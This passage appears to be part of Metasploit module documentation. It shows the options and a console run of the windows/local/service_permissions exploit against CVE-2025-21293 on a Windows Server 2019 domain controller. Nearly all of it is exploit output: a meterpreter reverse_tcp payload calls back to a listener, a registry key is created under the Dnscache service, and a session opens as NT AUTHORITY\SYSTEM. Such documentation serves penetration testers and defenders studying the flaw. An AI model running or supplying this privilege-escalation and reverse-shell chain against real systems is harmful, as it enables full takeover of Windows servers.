 ```
   AGGRESSIVE  false            no        Exploit as many services as possible (dangerous)
   SESSION     -1               yes       The session to run this module on
   TIMEOUT     10               yes       Timeout for WMI command in seconds


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     172.16.199.1     yes       The listen address (an interface may be specified)
   LPORT     6665             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Exploit CVE-2025-21293



View the full module info with the info, or info -d command.

msf6 exploit(windows/local/service_permissions) > run
[*] Started reverse TCP handler on 172.16.199.1:6665
[*] exploiting Exploit CVE-2025-21293
[+] [Dnscache] Created registry key: HKLM\System\CurrentControlSet\Services\Dnscache\Performance
[*] Sending stage (203846 bytes) to 172.16.199.200
[+] Deleted C:\Users\msfuser\AppData\Local\Temp\VcsHZcFQ.dll
[*] Meterpreter session 8 opened (172.16.199.1:6665 -> 172.16.199.200:49807) at 2025-04-16 09:42:35 -0700

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DC2
OS              : Windows Server 2019 (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : KERBEROS
Logged On Users : 5
Meterpreter     : x64/windows
meterpreter >
```


[CreateServiceA]: https://docs.microsoft.com/en-us/windows/win32/api/winsvc/nf-winsvc-createservicea